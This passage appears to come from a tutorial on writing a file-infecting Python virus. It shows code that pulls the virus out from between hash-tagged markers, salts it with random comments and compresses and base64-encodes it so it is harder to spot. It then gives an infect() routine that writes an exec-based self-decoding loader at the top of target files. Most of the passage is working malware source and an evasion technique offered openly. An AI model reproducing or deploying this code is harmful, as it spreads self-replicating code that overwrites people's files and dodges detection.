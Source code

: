 ```python

    if "# end-" + virus_hash in line:
      virus_code_on = False
      break

  return virus_code
```

And what about our virus source code? Can it be obfuscated somehow to be a little less easy to spot? 

Well, we could try to obscure it by making it different every time we infect a new file, then we can compress it by using the `zlib` library and converting it in `base64` format. We could just pass our plain text virus to a new `transform_and_obscure_virus_code()` function like this:

```python
def obscure(data: bytes) -> bytes:
    # obscure a stream of bytes compressing it and encoding it in base64
    return base64.urlsafe_b64encode(zlib.compress(data, 9))

def transform_and_obscure_virus_code(virus_code):
    # transforms the virus code adding some randomic contents, compressing it and converting it in base64
  new_virus_code = []
  for line in virus_code:
    new_virus_code.append("# "+ str(random.randrange(1000000))+ "\n")
    new_virus_code.append(line + "\n")

  obscured_virus_code = obscure(bytes("".join(new_virus_code), 'utf-8'))
  return obscured_virus_code
```

Obviously, when you obscure your virus compressing it and encoding it in base64 the code is not executable anymore, so you will have to transform it to the original state before executing it. This will be done in the `infect` method, by using the exec statement like this: 

```bash
def infect(file, virus_code):
  # infect a single file. The routine opens the file and if it's not been infected yet, infect the file with a custom version of the virus code
  hash = hashlib.md5(file.encode("utf-8")).hexdigest()

  if (data:=get_content_if_infectable(file, hash)):
    obscured_virus_code = transform_and_obscure_virus_code(virus_code)
    viral_vector = "exec(\"import zlib\\nimport base64\\nexec(zlib.decompress(base64.urlsafe_b64decode("+str(obscured_virus_code)+")))\")"

    with open(file, "w") as infected_file:
      infected_file.write("\n# begin-"+ hash + "\n" + viral_vector + "\n# end-" + hash + "\n")
      infected_file.writelines(data)

```

 